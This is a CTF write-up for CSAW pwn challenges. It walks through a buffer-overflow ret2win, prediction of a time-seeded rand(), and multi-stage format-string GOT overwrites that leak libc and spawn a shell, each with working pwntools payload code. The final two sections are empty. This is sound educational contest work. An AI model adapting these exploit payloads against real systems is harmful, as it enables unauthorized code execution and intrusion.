 Table of Contents
=================

   * [Alien math](#alien-math)
   * [haySTACK](#haystack)
   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
   * [Cold](#cold)
   * [word_games](#word_games)

## Alien math
```
Alien Math
60
Brush off your Flirbgarple textbooks!

nc pwn.chal.csaw.io 5004
```
![image](https://user-images.githubusercontent.com/87422359/133059630-36a26841-4747-4ec2-8b66-33a8b6ca0365.png)
![image](https://user-images.githubusercontent.com/87422359/133059840-163d6577-05db-47ce-af83-eb8601f5fc55.png)
![image](https://user-images.githubusercontent.com/87422359/133060090-14b3f5c4-76ad-46f0-9c3c-9235d4531789.png)
there are a BoF bug and a function give us the flag, just return to it.
<br />
payload:
<br />
```python
print_flag = 0x4014FB
r.sendlineafter("salwzoblrs", 'a'*0x18 + p64(print_flag))
```
## haySTACK
![image](https://user-images.githubusercontent.com/87422359/133061463-df45127b-c6df-4a61-9bc8-19277783455a.png)
```c
unsigned __int64 __fastcall sub_1273(__int64 a1)
{
  int i; // [rsp+14h] [rbp-3Ch]
  int v3; // [rsp+18h] [rbp-38h]
  int v4; // [rsp+1Ch] [rbp-34h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+30h] [rbp-20h]
  __int64 v8; // [rsp+38h] [rbp-18h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = random();
  *(4LL * v3 + a1) = 4919;
  *s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  for ( i = 0; i <= 2; ++i )
  {
    fwrite("Which haystack do you want to check?\n", 1uLL, 0x25uLL, stdout);
    fgets(s, 32, stdin);
    v4 = atoi(s);
    if ( v4 <= 0x100000 )
    {
      if ( v4 == v3 )
      {
        printf("Hey you found a needle! And its number is 0x%08x! That's it!\n", *(4LL * v4 + a1));
        win();
      }
      else
      {
        printf("Hey, you found a needle, but it's number is 0x%08x. I don't like that one\n", *(4LL * v4 + a1));
        if ( i )
        {
          if ( i == 1 )
            puts("Did I mention I'm in a hurry? I need you to find it on your next guess");
        }
        else
        {
          puts("Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle");
        }
      }
    }
    else
    {
      fwrite("I don't have that many haystacks!\n", 1uLL, 0x22uLL, stdout);
    }
    if ( i == 2 )
    {
      puts("I'm out of time. Thanks for trying...");
      return v9 - __readfsqword(0x28u);
    }
    puts("Let's try again!");
  }
  return v9 - __readfsqword(0x28u);
}
```
we will got flag if out input equal to the random number `v3`
<br />
payload:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc,char** argv) {
	int result;
	srand(time(NULL) + 2);
	result = rand() % 0x100000;
	printf("%d\n", result);
}
```
```python
seed = int(time())
process = subprocess.Popen('./a.out', stdout=subprocess.PIPE)
rd = process.stdout.readline().rstrip()
r.sendline(rd)
```
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password. <br />
the binaries are changed 3 times(at port 16, 32, 46), we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dive into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
## Cold
## word_games